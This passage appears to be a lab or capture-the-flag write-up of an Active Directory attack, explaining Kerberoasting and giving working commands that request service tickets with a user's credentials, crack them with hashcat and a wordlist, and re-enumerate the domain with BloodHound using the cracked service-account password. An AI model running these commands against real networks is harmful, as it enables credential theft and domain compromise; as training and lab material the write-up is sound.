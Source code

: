 The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.
You can know that a user account is being used as a service because the property "ServicePrincipalName" is not null.

GetUserSPNs.py -request -dc-ip 10.200.121.102 corp.thereserve.loc/laura.wood:"Password1@" -outputfile hashes.kerberoast 

Let's try to crack the hash :

cat hashes.kerberoast | grep svcBackups > svcbackup.hash
hashcat -m 13100 svcbackup.hash /usr/share/wordlists/rockyou.txt 

But no luck with svcBackup.

Let's try with other service accounts :

hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt 

And we have a match on svcScanning: Password1!

This service do not seem to have more privileges atr first sight.

We can try to re-enumerate AD with this user

## Domain corp.thereserve.loc enumeration (again)

```shell
domain=corp.thereserve.loc
username=svcScanning
password='Password1!'
target_ip=wrk1.corp.thereserve.loc
domain_dc=10.200.121.102

proxychains -q bloodhound-python -d $domain -u $username -p $password -ns $domain_dc -c all --dns-tcp --zip
```

Analysing this new database, it appears that this service account is a high value to go to the domain controler :

![](screenshots/ad-corp-scvscanning.png)
